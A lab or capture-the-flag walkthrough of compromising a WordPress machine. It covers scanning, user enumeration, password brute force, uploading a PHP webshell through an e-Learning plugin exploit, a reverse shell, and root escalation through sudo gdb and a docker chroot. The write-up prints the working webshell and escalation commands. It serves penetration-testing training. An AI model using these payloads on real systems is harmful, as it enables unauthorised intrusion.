 # Reconnaissance

We start the the recon process by using nmap
`nmap -sC -sV 192.168.0.25`

![nmap scan](imgs/nmap.png)

The machine contain common 2 port that is http and ssh port. First let's view the http port in the web browser.

![web view](imgs/browser.png)

Basic things to do when viewing web page is to view the page source and find the technologies that the website use. Using Wappalyzer, we know that the web page use Wordpress version 5.3.2.

![wapplyzer](imgs/wappalyzer.png)

After knowing that the web page use the wordpress, we can use WPScan to scan the web page and look if we can found interesting information.
`wpscan --url 192.168.0.25 --enumere u`

By using WPScan user enumeration, it will scan the Wordpress detail that being use by the website and found possible user that contain in the website. Based on the scan, we found two user that can possibly exploit.

![wpuser](imgs/wpuser.png)

# Exploit

Next, let's look if there are any directory that usefull in this webpage.
`dirsearch --url 192.168.0.25 -i 200`

![dirsearch](imgs/dirsearch.png)

It's look like the webpage contain basic wordpress directory that can be access in the web browser. We can look through all the directory to check if there any info that can we collect. But first, let's run wordpress user bruteforce to get password for the user.
`wpscan --url 192.168.0.25 --passwords /wordlists/rockyou.txt`

![credFound](imgs/valid.png)

By using bruteforce, we found the password for user **reconauthor**. Now we can access /wp-login.php/ to login into the Wordpress dashboard by using the credential we found.

![wpdashboard](imgs/dashboard.png)

After successfully log in into the user Wordpress dashboard, let's enumerate the Wordpress and search for any vulnerability that can be use to enter the server system.

Viewing each post, we found one post that may be help for us. This post said to add payload and it come with e-Learning plugin to upload to zip file.

![e-learning](imgs/elearning.png)

By google a little bit about the e-Learning plugin, we found the exploit that can be use to make remote code execution into the server.

![google](imgs/google.png)

![exploitdb](imgs/exploitdb.png)

The exploit said that we can craft the webshell and zip it to upload into the e-Learning plugin. After the upload process, we can access our webshell by the given path.

So first, let's craft two file that is index.html and index.php containing the webshell. We can use simple PHP webshell in the index.php file. For the index.html file, just put any text inside it as it just to make the e-Learning plugin can identify the index.html file.

```php
<?php system($_GET['cmd']); ?>
```

Zip both of the index.html file and index.php file.
`zip exploit.zip index.html index.php`

Now is the time to upload the webshell into the Wordpress. First, add new post, next click plus button that will add block. Choose e-Learning plugin from the block and new e-Learning block will appear. Click upload then choose the zip file that we create earlier. Click upload and choose insert as iFrame then click insert. The zip file already uploaded to the system and can be access using the given path.

![insert](imgs/insert.png)

We can access the webshell by using the url
`http://192.168.0.25/wp-content/uploads/articulate_uploads/exploit/index.php?cmd=id`

The webshell can be use as remote code execution in the system.

![id](imgs/id.png)

After we get the webshell, we can establish reverse shell to connect to the system shell, we can use php-reverse-shell by pentest monkey to the the job for us. Setup the netcat listener, then upload the reverse shell file and we got the reverse shell from the server.

![reverseshell](imgs/reverseshell.png)

Let's establish [**interactive shell**](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/) first.

# Privilege Escalation

We are now www-data user, let's check what user in this machine using /etc/passwd.

![passwd](imgs/passwd.png)

There are 3 users in the machine that is root, hacker and offensive hack. For the privilege escalation process, let's first try to check sudo access for www-data user by using `sudo -l` command.

![sudo](imgs/sudo.png)

Greate, so there are sudo permission that this user can use and it was **/usr/bin/gdb**. Let's check GTFObins if there any exploitation can be use using gdb.

![gtfobins](imgs/gtfobins.png)

So, we can get the escalate to offensivehack user by using the gdb. Run this command and we got offensivehack user shell.
`sudo -u offensivehack gdb -nx -ex '!sh' -ex quit`

![offensivehackuser](imgs/offensivehack.png)

After we got offensivehack user, we can continue our privilege escalation to get the root user. The first interesting things that we see from user id is this user can run docker command. So, let's try to do privilege escalation by exploiting docker. First, check what docker images this machine contain.

![dockerimages](imgs/dockercheck.png)

This machine contain ubuntu images. So we can find the exploitation command in the GTFObins to be use with the ubuntu images.
````
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
````

![gtfobinsdocker](imgs/gtfobinsdocker.png)

By running the command, we got the root user and complete this machine. :D

![rootuser](imgs/root.png)

***

# Tips4Todays

- WPScan is very usefull, you can use it everytime you found Wordpress website and try to enumerate the user.
- Check the user id, it may help to find the vulnerabilities to exploit during privesc.
- Go through the all wordpress posts, files or plugins to find information that may be usefull for exploitation.

Prepared by 4jai
31/1/2023


